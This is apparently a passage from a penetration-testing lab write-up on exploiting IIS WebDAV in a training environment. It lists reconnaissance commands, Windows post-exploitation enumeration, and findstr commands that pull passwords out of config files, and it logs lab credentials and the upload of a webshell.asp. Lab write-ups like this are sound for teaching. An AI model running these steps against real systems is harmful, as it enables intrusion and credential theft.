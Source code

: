 
## 🔗 Integration with Other Techniques

### Pre-Exploitation Intelligence
```bash
# Service enumeration
nmap -sV -p 80,443 target
nmap --script http-enum target

# Directory bruteforcing  
gobuster dir -u http://target -w /usr/share/wordlists/dirb/common.txt
dirb http://target /usr/share/wordlists/dirb/common.txt
```

### Post-Exploitation Expansion
```bash
# After web shell access
# System enumeration
whoami /all
systeminfo
net user
net localgroup administrators

# Network reconnaissance
ipconfig /all
netstat -an
arp -a
```

### Credential Harvesting
```bash
# Look for configuration files
dir web.config
type web.config
dir *.config
# Search for database connections
findstr /i "password" *.config
findstr /i "connectionstring" *.config
```

---

## 📝 Documentation and Evidence

### Comprehensive Lab Documentation

#### Attack Timeline
```
Phase 1: Discovery (0-5 minutes)
- nmap scan: Discovered port 80 with IIS
- http-enum: Found /webdav directory
- Service: Microsoft-IIS/10.0

Phase 2: Assessment (5-10 minutes)  
- davtest: Confirmed WebDAV with authentication
- Credentials: bob:password_123321
- Capabilities: ASP upload and execution

Phase 3: Exploitation (10-15 minutes)
- cadaver: Manual file upload
- Upload: webshell.asp (1362 bytes)
- Access: http://demo.ine.local/webdav/webshell.asp

```